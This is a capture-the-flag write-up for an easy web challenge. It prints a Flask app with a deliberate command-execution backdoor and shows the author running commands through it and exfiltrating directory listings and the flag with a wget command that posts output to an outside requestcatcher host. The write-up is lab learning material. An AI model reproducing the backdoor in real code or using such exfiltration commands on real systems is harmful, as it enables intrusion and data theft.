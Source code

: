 # Cig 0
### Web - Easy

- Looks like a simple Flask app! let's dig deeper into it
- ![9a960d18fed7b56a221498bdd3d0cd26.png](9a960d18fed7b56a221498bdd3d0cd26.png)
<details>
<summary>Reveal Code</summary>
```python
from flask import Flask, render_template, request, redirect
import os

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def backdoor():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    os.system(cmd)
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 12000))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>

- By analyzing the code we see `/backdoor` and `/setenv` both are useful to get RCE!
- in this chall I didn't use `/setenv` as i found and easier way to quickly solve it!
- Simply type 2 commands in `/backdoor?cmd=CMD`, the first will be finding the flag, second will be using `wget` to send data to my requestcatcher (curl wasn't installed probably as it failed) but you can actually combine it in 1 command!
- CMD: `wget --post-data=$(ls) ayham.requestcatcher.com`
- ![2f748010851ae359722a633f0dcbcab9.png](2f748010851ae359722a633f0dcbcab9.png)
- Now let's try to `ls /`
- ![d9739cc65a86d5d42a3ee4c85ba6b229.png](d9739cc65a86d5d42a3ee4c85ba6b229.png)
- hmmm! let's try environement vars! `env` but that has 1 issue, it will only send first line, we can use like `tr` or `sed` to join lines but I simply tried `echo $FLAG` and it worked!
- ![1d4f0bc922981917b37628725d68a08c.png](1d4f0bc922981917b37628725d68a08c.png)
- VOILAAA!!